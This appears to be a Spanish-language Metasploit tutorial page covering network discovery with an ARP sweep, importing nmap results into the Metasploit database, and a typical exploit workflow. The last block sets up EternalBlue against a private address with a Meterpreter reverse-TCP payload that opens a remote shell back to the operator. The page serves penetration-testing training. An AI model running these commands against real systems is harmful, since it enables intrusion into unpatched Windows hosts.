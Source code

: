 ## Usar un módulo y ver opciones

**Acción**

```bash
use auxiliary/scanner/discovery/arp_sweep
show options
info
set RHOSTS 192.168.110.0/24
set THREADS 10
run
```

**Explicación**  
Cargamos el módulo, listamos y completamos opciones requeridas, ejecutamos. Guardamos resultados en el workspace activo.

---

## Integración con Nmap y la DB

[Ver repositorio nmap](../Red/Nmap/)

**Acción**

```bash
# En terminal externa:
nmap -sC -sV -oX scan_etiqueta.xml 192.168.110.0/24

# En msfconsole:
db_import /ruta/scan_etiqueta.xml
services
hosts
vulns
```

**Explicación**  
Escaneamos con nmap fuera de msf (mejor control y versiones). Importamos el XML para poblar la DB de Metasploit y usar la información en búsquedas y correlaciones.

---

## Trabajar con exploits y payloads (flujo típico)

**Acción**

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.10.5
set LHOST 10.0.0.5
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
check
exploit -j
```
